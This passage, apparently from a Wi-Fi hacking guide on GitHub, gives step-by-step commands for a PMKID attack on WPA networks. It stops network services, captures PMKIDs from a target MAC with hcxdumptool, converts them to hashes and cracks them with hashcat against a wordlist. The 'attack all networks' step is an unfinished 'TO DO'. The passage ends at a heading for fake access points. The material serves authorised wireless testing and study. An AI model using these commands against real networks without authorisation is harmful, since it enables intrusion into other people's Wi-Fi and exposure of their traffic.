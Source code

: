 <br>

## <a name="42"></a>4.2. PMKID attack

You can use [this script](scripts/wpa/pmkid.sh) or follow these steps:

1. Install Hcxdumptool and Hcxtool (you can use this [script](scripts/wpa/pmkid_install.sh)).

2. Stop Network Manager

```bash
airmon-ng check kill
```


3a. If you want to attack all the networks 

```bash
TO DO
```


3b. If you want to attack a specific MAC address

- Create a text file ($FILTER_FILE) and add the MAC address without ":". You can use *sed* and redirect the output to a file:

```
echo $MAC | sed 's/://g' > $FILTER_FILE
```

- Capture PMKID

```bash
hcxdumptool -i $IFACE -o $PCAPNG_FILE --enable_status=1 --filterlist=$FILTER_FILE --filtermode=2
```

4. Create $HASH_FILE 

```bash
hcxpcaptool -z $HASH_FILE $PCAPNG_FILE
```
 
The structure of each line is: PMKID * ROUTER MAC * STATION * ESSID (check at: https://www.rapidtables.com/convert/number/hex-to-ascii.html) 

5. Crack it using Hashcat (option 16800)

```bash
hashcat -a 0 -m 16800 $HASH_FILE $WORDLIST --force
```


-------------------------

<br>

# 5. <a name="5"></a> WPA2-Enterprise

## 5.1 <a name="51"></a>Fake Access Points
